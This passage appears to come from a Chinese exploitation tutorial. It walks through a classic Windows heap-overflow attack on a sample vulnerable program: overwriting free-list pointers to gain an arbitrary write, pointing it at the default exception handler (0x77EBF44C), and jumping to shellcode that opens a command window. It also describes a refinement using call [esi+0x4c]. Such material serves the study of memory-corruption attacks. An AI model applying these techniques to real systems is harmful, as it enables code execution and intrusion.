现在，我们知道了有问题程序溢出点的精确位置，意思就是我们可以把它覆盖成任意值。其次，我们也有了ShellCode，一个可以给我们提供DOS窗口的代码。那接下来，就应该想办法使程序跳转到我们的ShellCode中，执行我们的代码，从而完成我们想要的功能。

首先看看堆溢出后为何要产生异常对话框，程序动态分配200字节的Buf1之后，其系统内部的堆结构如图8所示。
解释一下，先是8字节的Buf1的管理结构，然后是系统返回给我们的能实际操作的200字节空间，接着后面是8字节的下一空闲堆的管理结构，最后是两个双链表指针，各4个字节，共8个字节。

当我们用超长字符串覆盖Buf1的时候，其溢出后的结构如图9所示。
特别的，当用其他字符为A，第212字节为B覆盖时，其结构如图10所示。
200+8+4=212，这就是我们计算得到溢出点为212字节这个奇怪数字的原因。我们把结构最后的双链表指针覆盖了，那系统要使用它们的时候，当然会不正确，出错——这就是要出现报错对话框的原因。

再次，看看系统如何使用那两个双链表指针的。当程序分配Buf2的时候，就要使用那两个双链表指针了，且EAX为前一指针的值，而ECX为后一指针的值，并作如下操作：

```asm
mov [ecx], eax;
mov [eax+4], ecx;
```

该操作的目的是在新分配内存时，改变链表的指向，这里不仔细分析其功能，只要知道这两个操作即可。具体来说，就是我们在最后一次覆盖时，其结构和值如图11所示。


在我们最后一次覆盖数据的情况下，其操作`Mov [ecx],eax`就等于`Mov [BBBB],AAAA`。B的十六进制是0x42，即`Mov [0x42424242],AAAA`，就是把AAAA写入到0x42424242地址的内存中，而地址0x42424242一般是不能写的，所以就会报0x42424242不能写的错误。

程序出错就终止了。如果还要执行下一操作`Mov [eax+4], ecx`，在这种情况下，就等于`Mov [AAAA+4],BBBB`，即把BBBB写入到0x41414144的地址中，通常也是会出错的。

可以看出，我们用值随意覆盖的时候，会出现错误。如果我们精心地构造覆盖数据，就有可能跳转到我们想要的地方——ShellCode的地址去。

最后，构造溢出数据，使在堆溢出时完成跳转。我们知道，在分配Buf2的时候，会有两个操作`Mov[ecx],eax`和`Mov[eax+04],ecx`，而EAX和ECX分别是前后双链表指针的值，当我们用超长的数据填充Buf1的时候，可以覆盖到双链表指针的值，也就是说我们可以自己构造EAX和ECX。那如何构造EAX和ECX可以使程序跳转到ShellCode呢？

分析到这里了，思路应该是很清晰了。我们把EAX的值构造成ShellCode的地址，比如是0x11111111，把ECX的值构造成某个函数返回点的地址，比如是0x22222222，这样`Mov[ecx],eax`就是`Mov[0x22222222],0x11111111`，就会用ShellCode的地址覆盖函数返回点的值。这就如同堆栈溢出一样，当函数返回的时候，就会把保存的返回点给EIP继续执行，但保存的返回点已经被我们改成了ShellCode的地址，就会执行我们的ShellCode了。

一般函数返回点的地址不容易确定，而且每次运行程序的顺序不同，地址也不同。所以大家通常都把ECX的值覆盖成默认异常处理的地址，在SP2上是0x77EBF44C，在SP3上是0x77EBF44C，这样出现异常的时候，就会执行我们的ShellCode了，Cool!

ShellCode的地址呢？这里ShellCode是保存在Mybuf中的，所以我们直接把Mybuf的地址读出来填入即可。不过它不具有通用性，这就是OYXin文章提出的改进的地方，但我们还是看最笨的方法吧。我们构造的字符串结构如图12所示。


如此得到Mybuf后，运行程序（Vul6.c），就会弹出我们的DOS对话框了！堆溢出利用成功完成，如图13所示。


## 适应的改进方法

这个时候再回过头来看看OYXin在他的文章中提出的改进办法，就比较好理解了。刚才ShellCode的地址是不固定的，OYXin提出了改进ShellCode的定位方法，他发现其实下一个堆管理结构的起始点，在Windows 2000下是ESI+0x4C，所以把EAX覆盖成`Call [esi+0x4c]`在内存中的地址就可以更固定地定位了。Cool！顺便说说，在Windows XP下，是EDI+0x74。